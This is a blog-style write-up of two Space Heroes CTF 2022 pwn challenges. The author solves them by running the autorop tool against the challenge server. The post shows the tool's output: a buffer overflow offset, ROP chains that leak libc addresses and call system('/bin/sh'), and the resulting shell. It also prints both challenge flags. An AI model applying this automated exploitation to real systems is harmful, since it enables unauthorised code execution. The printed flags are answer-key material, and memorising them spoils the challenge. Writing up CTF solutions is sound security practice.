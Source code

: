 ```yaml
---
layout: post
title:  "Vader and Rule of Two (PWN Challenge Writeup) -- Space Heroes CTF 2022"
date:   2022-04-04
image: spaceheroes.png
---
```

<p class="intro"><span class="dropcap">F</span>ITSEC Team from <a href="https://research.fit.edu/fitsec/">Florida Tech</a> has done an excellent job preparing this CTF. These two challenges have one thing in common and that is that they can be solved using automated tools! <strong>This is a UNINTENDED Solution.</strong></p>


### This is a UNINTENDED Solution for this two challenges.


Challenges Description:

<figure>
        <img src="/assets/img/vader.png" alt="" />
        <figcaption>PWN Challenges</figcaption>
</figure>

If you see close, you note that both challenge has the same address, same port, and most important, the same binary!!

I will use an automated tool for CTF PWN resolution challenges called [AUTOROP](https://autorop.readthedocs.io/en/latest/)


{%- highlight bash -%}
┌──(leonuz㉿sniper)-[~[~/SpaceHeroesCTF/PWN/Vader]]
└─$ autorop ./vader 0.cloud.chals.io 20712 
[*] '/home/leonuz/CTFs/SpaceHeroesCTF/vader'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] Produced pipeline: Classic(Corefile(), OpenTarget(), Puts(False, ['__libc_start_main', 'puts']), Auto(), SystemBinSh())
[*] Pipeline [1/5]: Corefile()
[+] Starting local process './vader': pid 9817
[*] Process './vader' stopped with exit code -11 (SIGSEGV) (pid 9817)
[+] Receiving all data: Done (0B)
[+] Parsing corefile...: Done
[*] '/home/leonuz/CTFs/SpaceHeroesCTF/vader'/core.9817'
    Arch:      amd64-64-little
    RIP:       0x4015f9
    RSP:       0x7ffe4eb5c7c8
    Exe:       '/home/leonuz/CTFs/SpaceHeroesCTF/vader' (0x400000)
    Fault:     0x6161616161616166
[*] Fault address @ 0x6161616161616166
[*] Offset to return address is 40
[*] Pipeline [2/5]: OpenTarget()
[+] Opening connection to 0.cloud.chals.io on port 20712: Done
[*] Pipeline [3/5]: Puts(False, ['__libc_start_main', 'puts'])
[+] Opening connection to 0.cloud.chals.io on port 20712: Done
[*] Loaded 20 cached gadgets for './vader'
[*] 0x0000:         0x401016 ret
    0x0008:         0x40165b pop rdi; ret
    0x0010:         0x404ff0 [arg0] rdi = __libc_start_main
    0x0018:         0x401030 puts
    0x0020:         0x401016 ret
    0x0028:         0x40165b pop rdi; ret
    0x0030:         0x405018 [arg0] rdi = got.puts
    0x0038:         0x401030 puts
    0x0040:         0x401016 ret
    0x0048:         0x4015b5 main()
[*] leaked __libc_start_main @ 0x7f1409a81720
[*] leaked puts @ 0x7f1409acfde0
[*] Pipeline [4/5]: Auto()
[*] Searching for libc based on leaks using libc.rip
[!] 8 matching libc's found, picking first one
[*] Downloading libc
[*] '/home/leonuz/CTFs/SpaceHeroesCTF/.autorop.libc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] Pipeline [5/5]: SystemBinSh()
[*] Loaded 191 cached gadgets for '.autorop.libc'
[*] 0x0000:         0x401016 ret
    0x0008:         0x40165b pop rdi; ret
    0x0010:   0x7f1409be2962 [arg0] rdi = 139724039530850
    0x0018:   0x7f1409aa3850 system
    0x0020:         0x401016 ret
    0x0028:         0x4015b5 main()
[*] Switching to interactive mode
MMMMMMMMMMMMMMMMMMMMMMMMMMMWXKOxdolc;',;;::llclodkOKNWMMMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMWXOoc;::::::;;;clkKNXxlcccc:::::cdOXWMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMWMMNkc,;clccc;,...    .:c:. ...,;:cccc:,,ckNMWMMMMMMMMMMMMMDARK
MMMMMMMMMMMMMMMMMMXx;;lol:'            .'.           .':loc',xNMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMW0:;dxlcc'            .dO;             .::lxo':0MMMMMMMMMMMMS1D3
MMMMMMMMMMMMMMMWk':Ol;x0c           ';oKK: .            cOo,dk;,OMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMO':Ol:0Xc            l0OXNc.l'            cKO;o0;,KMMMMMMMMMMMMOF
MMMMMMMMMMMMMMX:'Oo:KMd             o0ONWc'x,            .xM0:xk.lWMMMMMMMMMMMMM
MMMMMMMMMMMMMMx.okcOMMk.            o0OWMl'x;            .xMMklOc'OMMMMMMMMMMTH3
MMMMMMMMMMMMMWc'xldWMMWKx'          oOkNMo,x;          'oONMMWdod.oMMMMMMMMMMMMM
MMMMMMMMMMMMMK;:dl0MMMMMXc          lOxNMo'd;          lWMMMMMOld;:NMMMMMMMFORC3
MMMMMMMMMMMMMO':ldWMMMMWo           ckxNMd,d;          .kMMMMMNlc;,KMMMMMMMMMMMM
MMMMMMMMMMMMMk';cxMMMMMWOl:,.       cxxNMx;d;       .,;l0MMMMMWdc;'0MMMMMMMMMMMM
MMMMMMMMMMMMMx',cOMMMWXOxoc;.       cxxNMkcx:       .cdkOXWMMMMd:;'0MMMMMMMMMMMM
MMMMMMMMMMMMMx';;l0xl,.    .       ,0xdWMOcOx.           .,lkXWd:;'OMMMMMMMMMMMM
MMMMMMMMMMMMMd.ld:'    .',;::ccc:;,kWxxWMOlONo',:cc::,'...   'ood:'OMMMMMMMMMMMM
MMMMMMMMMMMMWl.xK:            .';coOXo:xxo:kKkl:;'.           .oXl.OMMMMMMMMMMMM
MMMMMMMMMMMM0';d'       .......',;;''.    ..'',;,'......        lo.lWMMMMMMMMMMM
MMMMMMMMMMMX:,l'        ..      .',:;lo. ;d:;:,..     ..         c:.xWMMMMMMMMMM
MMMMMMMMMMNc,o,                     '0XxoOWd.                    .l:,0MMMMMMMMMM
MMMMMMMMMWd,o;                      .xMNXWWc                      .o::XMMMMMMMMM
MMMMMMMMMk,oc                    .. .kXkdONc ..                    'd;oWMMMMMMMM
MMMMMMMM0;lo.         .;:,'....  'cxxo;'''cxxo:. ......';'          :x:xWMMMMMMM
MMMMMMMK:lx.           'xNNXXXKd;;::,.,l:..':c;,;xKKKXX0l.           oxcOMMMMMMM
MMMMMMXcck,         ..   ,cloool:. .lc,,'.cx, .';looooc.             .kxlKMMMMMM
MMMMMWoc0c      .'. .cdll;..',;lkOxxl:xOOxclddkkl:,''.';:cl'  ..      :KddNMMMMM
MMMMWxc0x.       :o; .xWWKkdodkKWMMKlxWMMMKdOMMWXkdoloONMXc .cc.      .dXdxWMMMM
MMMMOcOK;         'xd.'0MMMMMMMXk0Xc'dKXXKO:,0KkKWMMMMMMWo.;xl.        ,0XxOWMMM
MMM0lkNo           .xO;cXWWMWXd:dx; ;d;,:l:  ;xd:l0WMMMWx,oO;           oWKx0MMM
MMKokW0'            .dKdOWMNx;ckd:. lK,.cOd..lcdO:'oXMMKokO,            .OWKkXMM
MXdxN0;              .kWNWXc.,d;.do lK,.:kd.,0l.;o,.:KWNNK,              ;KW0kNM
NxdOc.                ,0MMd..;l''Oo lK,.;kd.;Ko .,,. lWMXc                'xXOOW
xd0d.                  ;KMO,.c0ocXk;xXocxK0cdNOcol'''dWWd.                 .o0kO
,xWX:                   :XXc.:oddxxxxxxddxxxxkkOko;.:KNd.                  'kN0l
.,dOkdoc:,'..            .'..,lxkox0OO0kxOOxOOddxl,..,,.              ..,:lkKOl.
x,...',;:cc::;,,'''...        .,;cdO0KKKXXKkdo:,,'.        ...'',,,,;;clllc;'..;
MNKOxdoolcc::;;;;. ..             ..,;:clc;..              ...,;;;,,'',;;:clox0N
MMMMMMMMMMMMMMMMW0;                                          'kKXXNNNWWMMMMMMMMM
MMMMMMMMMMMMMMMMMMNd,..          ........                .. .kWMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMWKxl;..       'okOOko:,..     ..  ....';lKWMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMXkdc'....   .,cc:,,'..  .'o0Oo:;:cokXMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMWXkdoc;''''',,;;:::::::ccllclx0NMMMMMMMMMMMMMMMMMMMMMMMM
MMMMMMMMMMMMMMMMMMMMMMMMMMMMWXkol:;,'.''''....,cokKWMMMMMMMMMMMMMMMMMMMMMMMMMMMM


 When I left you, I was but the learner. Now I am the master >>> $ 

 {%- endhighlight -%}

At this point, we can see the prompt `$` which indicate that the machine has been pwn. Let's list the directory looking for the flags. 


{%- highlight bash -%}
 When I left you, I was but the learner. Now I am the master >>> $ ls
-
banner_fail
bin
boot
dev
etc
flag.txt
home
lib
lib32
lib64
libx32
media
mnt
opt
proc
root
run
sbin
service.conf
sith.txt
srv
sys
tmp
usr
vader
var
wrapper
$ cat flag.txt
shctf{th3r3-1s-n0-try}
$ cat sith.txt
shctf{W1th0ut-str1f3-ur-v1ctory-has-no-m3an1ng}
$ 
[*] Interrupted
[*] Closed connection to 0.cloud.chals.io port 20712
[*] Closed connection to 0.cloud.chals.io port 20712
                                                                                                                                                                                            
{%- endhighlight -%}
<center>flag for "Vader" Challenge is inside of flag.txt:</center>
**<center>shctf{th3r3-1s-n0-try}</center>**
<center>flag for "Rule of two" Challenge is inside of sith.txt: </center>
**<center>shctf{W1th0ut-str1f3-ur-v1ctory-has-no-m3an1ng}</center>**

---

#### More Info about automatic tools for PWN here 
- [AUTOROP](https://github.com/mariuszskon/autorop)
- [ZERATOOL](https://github.com/ChrisTheCoolHut/Zeratool)

- - -
### Final Notes.

An excellent engineering professor taught me that **"As an engineers we can't know ALL the answers, but we should know how to look for them"**.

- - -

Thanks [FITSEC Team](https://research.fit.edu/fitsec/) for the excellent CTF.

For fun and knowledge, always think out of the box! :)

<figure>
        <img src="/assets/img/score.png" alt="" />
</figure>

---
